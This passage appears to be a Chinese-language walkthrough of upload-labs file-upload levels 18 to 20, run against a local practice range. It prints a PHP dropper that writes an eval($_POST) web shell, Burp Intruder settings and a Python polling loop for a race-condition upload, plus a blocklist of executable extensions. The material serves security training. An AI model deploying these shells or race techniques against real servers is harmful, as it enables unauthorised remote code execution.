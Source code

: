 所以存在条件竞争漏洞,开始构造小马:

```php
<?php fputs(fopen('er.php','w'),'<?php @eval($_POST["xek"]);?>');?>
    //fputs () 函数用于把字符串写入到指定的流中
    //fopen() 文件打开 指定打开文件'qwe.php' 'w'如果不存在那就以写入的方式写入到文件里面
```

然后burp suite抓包 发送2.php 抓包发送到攻击模块
![image-20231022220217500](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231022220217500.png)

![image-20231022220235681](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231022220235681.png)

先清除占位符

![image-20231022220251935](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231022220251935.png)
改成无限次发送payloads
![image-20231022220325775](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231022220325775.png)

修改线程数为25 到这里bp的工作就完成了 接下来准备编写py脚本来访问上传上去的2.php文件 

```python
import requests

url = 'http://localhost/upload-labs-master/upload/2.php'
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("er.php was finish")
        break
```

当运行成功时break并且print
最后用er.php来链接蚁剑 完成文件上传

![image-20231022220500976](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231022220500976.png)

------

## less 19

apache解析漏洞 2.php.7z apache不会解析.7z 然后会自动想左找可以解析的后缀 找到了php就用php来解析
和less18同理 也是用条件竞争漏洞来做 由于靶场的问题 做不出来 写不了payload

------

## less 20

```php
$deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
//简单的黑名单 过滤不全
```
